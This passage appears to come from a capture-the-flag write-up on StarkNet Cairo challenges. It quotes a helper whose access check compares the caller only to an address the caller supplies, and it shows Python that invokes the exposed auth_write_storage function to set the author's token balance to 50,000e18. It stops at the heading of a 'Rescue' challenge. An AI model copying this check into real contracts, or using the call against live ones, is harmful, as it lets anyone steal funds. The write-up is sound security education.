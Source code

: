 
It imported a function from another file and used this function in a `view` method of the contract. In the utils file
I saw this:

```cairo
# Helpers for auth users to interact with contract's storage 
@view
func auth_read_storage{
        syscall_ptr : felt*,
    }(auth_account : felt, address : felt) -> (value : felt):
    let (caller) = get_caller_address()

    assert caller = auth_account

    let (value) = storage_read(address=address)

    return (value=value)
end

@external
func auth_write_storage{
        syscall_ptr : felt*,
    }(auth_account : felt, address : felt, value : felt):
    let (caller) = get_caller_address()

    assert caller = auth_account

    storage_write(address=address, value=value)
    return()
end
```
A-ha! So there's also a write-to-storage function. It has `@external` decorator, which makes it a public method of a
contract. However, it wasn't used in the proxy contract. Or was it?

To dispel my doubts I called this:
```python
print(proxy_contract.data.abi)
```

And saw that `auth_write_storage` was part of the proxy contract! So, I needed to write 50,000e18 to my storage slot in
the `balances` mapping:
```python
storage_addr=get_storage_var_address("balances", acc.address)
proxy_contract.functions["auth_write_storage"].invoke_sync(acc.address, storage_addr, int(50000e18), max_fee=0)
```

## Rescue

>  I accidentally sent some WETH to a contract, can you help me? 
